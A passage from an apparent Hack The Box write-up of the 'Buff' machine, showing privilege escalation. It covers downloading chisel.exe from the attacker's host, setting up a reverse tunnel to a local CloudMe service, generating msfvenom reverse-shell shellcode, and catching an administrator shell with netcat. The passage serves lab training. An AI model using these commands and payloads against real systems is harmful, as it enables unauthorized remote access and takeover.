 ```bash
curl http://10.10.14.137:8000/chisel.exe -o chisel.exe
```

On the Parrot box run chisel as a server waiting for a reverse connection:

```bash
./chisel server -p 9000 --reverse
```

Then run chisel.exe as a client on Buff

```bash
PS C:\xampp\htdocs\gym\upload> .\chisel.exe client ` 
10.10.14.137:9000 R:8888:127.0.0.1:8888
.\chisel.exe client 10.10.14.137:9999 R:8888:127.0.0.1:8888
2020/11/29 09:05:30 client: 
    Connecting to ws://10.10.14.137:9999
2020/11/29 09:05:34 client: 
    Connected (Latency 461.1332ms)
```

We will cover using chisel for tunnels in more detail when looking at pivoting but this is the same principle as using SSH as a tunnel.

We can now connect to the CloudMe application from our Parrot box on 127.0.0.1 and port 8888

Taking the exploit code that we developed on the Windows machine, we need to replace the shell code with a reverse shell again using **msfvenom**:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.137 \
 LPORT=6003 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
```

Start a listener on port 6003 and then run the exploit code:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Buff]
└──╼ $nc -lvnp 6003
listening on [any] 6003 ...
connect to [10.10.14.137] from (UNKNOWN) [10.129.56.154]
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
whoami
buff\administrator
```

